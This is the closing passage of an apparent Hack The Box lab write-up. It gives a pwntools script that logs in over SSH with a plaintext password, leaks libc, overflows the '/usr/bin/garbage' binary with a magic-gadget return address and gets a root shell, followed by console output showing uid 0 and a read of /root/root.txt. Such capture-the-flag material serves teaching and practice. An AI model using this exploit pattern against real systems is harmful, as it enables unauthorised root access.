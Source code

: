 ```python
def get_shell(p):
    p.sendline('A'*136 + p64(base + magic))
    p.interactive()
    print(p.recv())

s = ssh(host='10.10.10.139', user='margo', password='iamgod$08')
p = s.process('/usr/bin/garbage')
base = leak_libc(p)
print(hex(base))
set_uid(p, base)
get_shell(p)
```

```
[+] Starting remote process '/usr/bin/garbage' on 10.10.10.139: pid 2405
'\xc0\xc9\x9fX\x05\x7f\n'
0x7f055897c000
Enter access password:
[*] Switching to interactive mode

access denied.
Enter access password:
access denied.
# $ id
uid=0(root) gid=1002(margo) groups=1002(margo)
# $ wc -lc /root/root.txt
 1 33 /root/root.txt
```

This was a very fun box, thanks to [Ic3M4n](https://www.hackthebox.eu/home/users/profile/30224) for creating it!